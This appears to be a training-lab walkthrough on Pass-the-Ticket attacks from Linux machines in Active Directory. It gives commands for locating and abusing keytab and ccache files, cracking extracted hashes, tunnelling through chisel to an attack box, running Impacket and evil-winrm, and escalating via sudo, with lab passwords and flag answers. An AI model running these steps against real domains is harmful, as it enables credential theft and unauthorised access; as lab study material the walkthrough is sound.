 # Workflow

#### Intel Gather

1. Check If Linux Machine is Domain Joined
    - Realm utility command `realm list`
    - ps utility command `ps -ef | grep -i "winbind|sssd"`
2. Using Find to Search for Files with Keytab in the Name `find / -name *keytab* -ls 2>/dev/null`
3. Identifying Keytab Files in Cronjobs `crontab -l` it may also show the utility used to interact with kerberos
4. Location of ccache files
    - Check env variable `KRB5CCNAME` for ccache file
    - Another location is /tmp
5. Check the user for which the ccache file is using `klist -k -t`

#### Exploits

> **Note**: `kinit` is **case-sensitive**. Confirm name of principle matches.

> **Note**: Using Impacket tools from a Linux machine connected to the domain, note that some Linux Active Directory implementations use the FILE: prefix in the KRB5CCNAME variable. If this is the case, the variable must be modified to only include the path to the ccache file.

1. Spoofing using the keytab file using `kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab`.
2. Crack account password by extracting hashes in the keytab file. Utility for this task [KeyTabExtract](https://github.com/sosdave/KeyTabExtract) it will extract info such as realm, Service Principal, Encryption type and hashes.
    - Use `python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab`
    > **Note**: A keytab file can contain different types of hashes and can be merged to contain multiple credentials even from different users.
    > **Note**: `klist` only displays the ticket info like start and expire date. ccache files are temporary.
    - Use `hashcat` or `johntheripper` to crack the NTLM hash
    - Websites like https://crackstation.net/ can be used for the same purpose
    - After logging in as the user look for more hashes
    - If we gain read privilege on a keytab file. Only the owner of the file or root can read the file.
    - Look for tickets `present in machine`, `who they belong to` and `the expiration time`
    - Use `id` to check the details of the user from the keytab file in the machine
    - To use a ccache file, we can copy the ccache file and assign the file path to the `KRB5CCNAME` variable.
3. To use other linux tools to attack `AD`. We need
    - For a domain-joined machine `KRB5CCNAME` env variable must be set.
    - In case the machine has not joined the domain example the attack box must be able to contact the KDC or the domain controller and Domain Resolution is working.
    - If the attack box cannot establish a connection to KDC/Domain Controller, a proxy must be configured with tools such as [Chisel](https://github.com/jpillora/chisel) and [Proxychains](https://github.com/haad/proxychains) and /etx/hosts must have the target machines and domain ip's hardcoded.
    - Set up proxychains config file to use socks5 and port 1080
    - Execute chisel on the attack box(pwnbox) with `sudo ./chisel server --reverse`
    - From the foothold execute `c:\tools\chisel.exe client <attack_box_ip> R:socks`
    - Using Impacket with proxychains and Kerberos Authentication the target name must be specified not its ip. use the flag `-k` and if password prompt needs to be skipped use `-no-pass`. like `proxychains impacket-wmiexec dc01 -k`
4. To use `evil-winrm`
    - kerberos package called krb5-user must be installed
    - A prompt to set up realm will show up during installation. Provide the domain for the attack
    - if the krb5-user configuration has to be changed the file is at `/etc/krb5.conf`
    - Using Evil-WinRM with Kerberos `proxychains evil-winrm -i dc01 -r inlanefreight.htb`
    - [impacket-ticketconverter](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py) can be used to convert ccache file in windows and kirbi file in linux like `impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi`
    - [Linikatz](https://github.com/CiscoCXSecurity/linikatz) is the tool to use in linux machines connected to the `AD`. To take advantage of it use it in root privileges.


## Lab

Connect to the target machine using SSH to the port TCP/2222 and the provided credentials. Read the flag in David's home directory.

- `ssh -p 2222 david@inlanefreight.htb@<ip>`

Which group can connect to LINUX01? 

- `realm list`

Look for a keytab file that you have read and write access. Submit the file name as a response.

- `find / -type f -name *keytab* 2>/dev/null`

Extract the hashes from the keytab file you found, crack the password, log in as the user and submit the flag in the user's home directory.

- `python3 keytabextractor.py <path_to_file>`
- Use https://www.crackstation.net to crack the NTLM hash

Check Carlos' crontab, and look for keytabs to which Carlos has access. Try to get the credentials of the user svc_workstations and use them to authenticate via SSH. Submit the flag.txt in svc_workstations' home directory

- `su carlos@inlanefreight.htb`
- Password: Password5
- `crontab -l`
- detected a cronjob of executing a script at `.scripts/kerberos_script_test.sh`
- investigating the script resulted in the discovery of the keytab file for svc_workstations with the name `svc_workstations.kt`
- Extracting hashes with `keytabextractor.py` and decoding it using https://www.crackstation.net/
- `su svc_workstations@inlanefreight.htb`
- Password: Password4
- `cd ~`
- `cat flag.txt`

Check svc_workstation's sudo privileges and get access as root. Submit the flag in /root/flag.txt directory as the response.

- Checking sudoers file for the current account using `sudo -l` resulting in the discovery of the account in the sudoers file
- Switching user to root `sudo su`
- Password: Password4
- Navigate to home directory to find the file

Check the /tmp directory and find Julio's Kerberos ticket (ccache file). Import the ticket and read the contents of julio.txt from the domain share folder \\\\DC01\julio.

- As root checking the /tmp directory will result in the discovery of 2 `krb5cc` files belonging to julio@inlanefreight.htb
- Changing environment variable `KRB5CCNAME` to the path of one of these files will result in klist approving as julio
- Using smbclient to interact with the share and retriving the flag 
    `smbclient //dc01/julio`

Use the LINUX01$ Kerberos ticket to read the flag found in \\\\DC01\linux01. Submit the contents as your response (the flag starts with Us1nG_). 

- Looking for all the keytab files using find `find / -type f -name *keytab* 2>/dev/null` will result in the discovery of krb5.keytab
- Using `kinit` to use the keytab to spoof as `LINUX01$@INLANEFREIGHT.HTB` 
    `kinit LINUX01$@INLANEFREIGHT.HTB -k -t /etc/krb5.keytab`
- Using smbclient to access the //dc01/linux01 share and retrieve the flag

### Optional exercise

